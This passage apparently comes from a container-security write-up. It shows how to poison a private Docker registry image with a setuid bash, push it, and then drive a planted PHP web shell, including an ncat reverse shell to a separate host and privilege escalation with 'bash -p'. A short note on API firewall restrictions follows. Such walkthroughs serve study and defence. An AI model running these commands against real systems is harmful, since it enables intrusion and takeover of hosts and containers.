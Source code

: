 And to escalate privilegs easily:
```bash
chmod u+s /bin/bash
```

Now commit and push the image:
```bash
docker commit wordpress 192.168.1.100:5000/wordpress:latest
docker push 192.168.1.100:5000/wordpress:latest
```

Now we can execute command using the php script:
```bash
curl -s 192.168.1.100:8080/shell.php?cmd=whoami
```

And get a shell if we want:
```bash
curl -s 192.168.1.100:8080/shell.php?cmd=ncat+192.168.1.200+4444+-e+/bin/bash
```

To escalate:
```bash
/bin/bash -p
```

> The option autodeploy, allows us to change the container's base image to the tampered image


# Bypass 

## API Firewall restrictions

- The sys admin can disable the ability for users to mount volumes and run containers with the `--privileged` flag or grant any extra capabilities to the container. 
- The admin can also restrict mounting to only the `/tmp` folder, removing all other possibilities.

![Alt text](/assets/images/posts/container/7.png){: .align-center}
